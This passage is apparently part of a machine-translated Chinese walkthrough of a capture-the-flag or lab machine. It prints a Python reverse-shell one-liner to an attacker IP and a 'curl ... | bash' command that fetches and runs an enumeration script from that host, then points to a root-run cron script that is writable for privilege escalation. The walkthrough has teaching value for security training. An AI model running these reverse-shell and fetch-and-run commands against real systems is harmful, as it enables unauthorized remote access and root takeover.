 ```
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.15.153”,1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

这就是它的作用:

![](img/3048eeb24fa61991f1d8d841f83f6ab5.png)

你有壳

# 权限提升

一旦我在盒子上，我运行`LinEnum.sh`，这是一个完整的枚举脚本，可以在[这里](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)找到。在我的主机上，我导航到文件所在的目录，用 python 启动一个`SimpleHTTPServer`:

```
python -m SimpleHTTPServer 80
```

> 在反向 shell 中，我可以在服务器上运行文件
> 
> 而不必下载到机器上

```
curl 192.168.15.153/LinEnum.sh | bash
```

通过将 curl 的输出直接传输到 bash，我可以运行`LinEnum.sh`而无需在本地编写文件。

这个脚本总是返回大量的干扰来筛选。所以我将直接跳到引导我进入`root`的部分。

## 克朗乔布斯

检查`/etc/cron.d`中的 cronjobs 发现，我们对一个名为`cron-logrotate.sh`的文件有写访问权，每 5 分钟运行一次`root`。
